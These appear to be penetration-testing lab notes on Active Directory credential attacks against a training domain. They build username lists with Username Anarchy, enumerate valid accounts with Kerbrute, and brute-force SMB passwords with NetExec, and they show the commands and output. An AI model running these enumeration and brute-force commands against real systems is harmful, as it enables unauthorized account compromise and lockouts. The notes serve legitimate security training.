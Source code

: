 We can create a custom list on our attack host using the names above.
```shell-session
> cat usernames.txt

bwilliamson
benwilliamson
ben.willamson
willamson.ben
bburgerstien
bobburgerstien
bob.burgerstien
burgerstien.bob
jstevenson
jimstevenson
jim.stevenson
stevenson.jim
```

We can manually create our list(s) or use an `automated list generator` such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats.
```shell-session
./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
benw
...
...
```

#### Enumerating valid usernames with Kerbrute
Kerbrute can be used for brute-forcing, password spraying and username enumeration. Right now, we are only interested in username enumeration, which would look like this:
```shell
kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt


[+] VALID USERNAME:       bwilliamson@inlanefreight.local
```

#### Launching a brute-force attack with NetExec
```shell
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
 If the admins configured an account lockout policy, this attack could lock out the account that we are targeting.


#### Event logs from the attack
![[Pasted image 20250930182832.png]]
